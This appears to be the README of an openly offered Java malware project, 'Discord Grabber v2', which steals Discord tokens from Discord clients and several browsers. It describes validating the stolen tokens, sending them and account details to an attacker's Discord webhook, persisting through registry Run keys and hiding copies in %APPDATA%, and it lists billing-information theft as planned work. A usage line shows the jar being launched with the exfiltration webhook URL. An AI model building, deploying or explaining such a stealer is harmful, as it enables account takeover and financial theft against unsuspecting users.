 # Discord Grabber v2

Discord Grabber v2 is the second version of a discord token logger, improvements from the previous version are:

- Checks whether or not the token is valid
- Provides information regarding the account
- Has a minimum amount of persistence (namely moving itself to %APPDATA% and placing itself in the Run directory of the registry

## Features
Current features include:

- Send information via discord webhook (Embed)
- Checks for Discord (Canary, PTB) tokens, Google Chrome, Brave Browser, Yandex Browser and Opera Browser
- Checks whether the token(s) is valid before sending it to avoid disabled tokens flooding the webhook
- Persists in registry (Run, RunOnce, RunServices, RunServicesOnce)
- Copies itself into %APPDATA% every time it runs (under a random UUID)

## WIP
- Send normal webhook messages (not embed)
- Check whether or not discord account has nitro
- Check the billing information (if nitro is present)


## Usage

The idea is to edit the source code yourself, edit the settings, and add the webhook. The release version  can be used but the settings can not be changed, and the webhook has to be passed as the first and only argument

```java -jar <filename>.jar https://discord.com/api/webhooks/id/token```

## Contributing
You may do with this code whatever you want, I would appreciate suggestions or if you tell me what you change, but it is not needed.

## Disclaimer
I am in no way responsible for what you do using my program/code.
